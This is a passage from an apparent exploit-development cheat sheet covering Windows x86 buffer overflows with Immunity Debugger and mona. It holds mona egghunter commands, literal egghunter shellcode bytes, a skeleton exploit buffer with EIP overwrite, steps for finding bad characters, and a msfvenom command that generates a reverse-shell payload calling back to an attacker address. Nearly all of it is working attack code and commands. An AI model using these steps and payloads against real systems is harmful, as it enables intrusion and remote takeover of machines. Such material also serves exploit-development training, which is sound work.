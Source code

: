 ```bash
!mona egg -t T00W
```
it is import add nullbytes before and after the egghunter code to analize on the stack
```python
egghunter = "\x90" * 4
egghunter += "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
egghunter += "\xef\xb8\x54\x30\x30\x57\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
egghunter += "\x90" * 4
```

### 12 - Build exploit with egghunter
it is very simple to build a egghunter code by mona

```bash
...
shellcode = "T00WT00W"
shellcode += "C" * 400

egghunter = "\x90" * 4
egghunter += "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
egghunter += "\xef\xb8\x54\x30\x30\x57\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
egghunter += "\x90" * 4


offset = "A" * (yyy -len(egghunter)) + egghunter
eip = jmpesp-address
esp = \xEB\x??
buffer = offset + eip + esp
...
```

### 13 - Looking For BADCHARS
inside immunity debugger
```bash
!mona bytearray
!mona bytearray -cpb "\x00\x0a\x0d"
```
get the address of the start of the bytearray in the stack (ZZZZZZZZ)
```bash
!mona compare -f c:\logs\appname\bytearray.bin -a ZZZZZZZZ
```
### 14 - Build a Payload (reverseshell)
using the msfvenom to build a payload of the reverse shell
```bash
msfvenom -p windows/shell_reverse_tcp lhost=x.x.x.x lport=xxx -b "\x00\x0a\x0d\x......." -a x86 --platform win -v esp -f python
```


## Also see
{: .-one-column}
